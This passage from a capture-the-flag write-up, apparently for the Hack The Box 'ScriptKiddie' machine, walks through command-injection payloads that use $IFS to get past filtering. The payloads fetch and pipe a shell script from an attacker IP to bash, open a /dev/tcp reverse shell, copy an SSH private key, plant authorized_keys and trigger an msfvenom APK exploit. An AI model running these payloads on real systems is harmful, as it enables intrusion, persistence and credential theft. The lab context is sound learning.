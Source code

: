 ```bash
;curl$IFShttp://10.10.16.211/rev.sh$IFS|$IFSbash#
```

Sending it off, we see the injection but no code execution:

![[Pasted image 20210612152324.png]]

And no hit on our python server:

![[Pasted image 20210612153059.png]]

So I added the `/bin/bash -c` prefix:

```bash
;/bin/bash$IFS-c$IFS'curl$IFShttp://10.10.16.211/rev.sh$IFS|$IFSbash'#
```

However, I didn't get anything back. It seems to delete the single quotes from the payload, which may be breaking the command:

![[Pasted image 20210612152841.png]]

I tried a few payloads here, including with both `$IFS` and `${IFS}`:
- `;echo$IFS"bash${IFS}-i${IFS}>&${IFS}/dev/tcp/10.10.16.211/9001${IFS}0>&1"$IFS>$IFS/home/pwn/rev;$IFS/home/pwn/rev#` to create and execute a staged payload
- `;cp${IFS}/home/pwn/.ssh/id_rsa${IFS}/home/pwn/;${IFS}chmod${IFS}777${IFS}/home/pwn/id_rsa#` to copy `pwn`'s SSH key and make it readable
- `;echo${IFS}"ssh-rsa${IFS}AA...[snip]...38="${IFS}>${IFS}/home/pwn/.ssh/authorized_keys#` to write an SSH key

Eventually, I had the idea to reuse the exploit from before, and manually execute a malicious APK!

I copied across the APK that excecutes the reverse shell using `curl`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/www]
└─$ cp /tmp/tmp056ul9j3/evil.apk .
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/www]
└─$ mv evil.apk exec-rev.apk
```

Then I started a python server to serve up both `exec-rev.apk` and `rev.sh` on port 80, and executed the command to download the apk:

```bash
;wget${IFS}http://10.10.16.211/exec-rev.apk#
```

![[Pasted image 20210612160656.png]]

This hit my server (twice, strangely):

![[Pasted image 20210612160716.png]]

Then I had to make it execute the malicious apk. I used this command:

```bash
;msfvenom${IFS}-x${IFS}/home/pwn/exec-rev.apk${IFS}-p${IFS}android/meterpreter/reverse_tcp${IFS}LHOST=127.0.0.1${IFS}LPORT=4444${IFS}-o${IFS}/dev/null#
```
